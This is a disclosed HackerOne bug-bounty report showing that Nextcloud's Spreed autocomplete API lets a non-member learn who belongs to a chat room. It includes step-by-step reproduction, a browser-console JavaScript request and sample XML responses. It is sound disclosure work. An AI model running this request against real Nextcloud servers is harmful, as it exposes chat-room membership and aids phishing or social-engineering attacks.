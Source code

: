 # Chat room member disclosure via autocomplete API

## Report Details
- **Report ID**: 1850407
- **URL**: https://hackerone.com/reports/1850407
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-01-29T16:35:36.157Z
- **Disclosed**: 2023-03-25T08:22:11.381Z

## Reporter
- **Username**: lukasreschke
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
## Summary:
Even if you are not a member of a Spreed room, it is possible to find out who is in the room using the autocomplete API. I have not yet checked if this affects other autocomplete share types.

## Steps to reproduce:

Requirements: Three users named "demo", "demo1" and "hacker".

1. Create a new Spreed room as user "demo" (note the room ID)
2. Add user "demo1" to the room
3. Log in as user "hacker" and execute the following in the JavaScript console of your browser Change the `itemId` to the room ID you created earlier.

```
let req = new XMLHttpRequest();
req.open("GET", OC.generateUrl('/ocs/v2.php/core/autocomplete/get?search=demo&itemType=call&itemId=qqads88a&shareTypes[]=0&shareTypes[]=1&shareTypes[]=7&shareTypes[]=4'))
req.setRequestHeader('requesttoken',OC.requestToken)
req.send();
```

4. In the Network tab you will now see the following response:

```
<?xml version="1.0"?>
<ocs>
 <meta
  <status>ok</status>
  <statuscode>200</statuscode>
  <message>OK</message
 </meta>
 <data/>
</ocs>
```

5. Now as user "demo" remove user "demo1" from the chat room.
6. Re-send the request as user "hacker", you will now see that `demo1` is available as a suggestion and therefore not a member of the chat room:

```
<?xml version="1.0"?>
<ocs>
 <meta>
  <status>ok</status>
  <statuscode>200</statuscode>.
  <message>OK</message
 </meta>
 <data>
  <element>
   <id>demo1</id>
   <label>demo1</label>
   <icon>icon-user</icon>
   <source>users</source>
   <status/>
   <subline></subline>
   <shareWithDisplayNameUnique>demo1</shareWithDisplayNameUnique>
  </element>
 </data>
</ocs>
```

## Impact

An attacker could use this vulnerability to gain information about the members of a Spreed chat room, even if they themselves are not members. This information could potentially be used for malicious purposes, such as targeted phishing attacks or social engineering attempts. The impact could depend on the sensitivity of the information being shared in the chat room.

## Attachments
No attachments
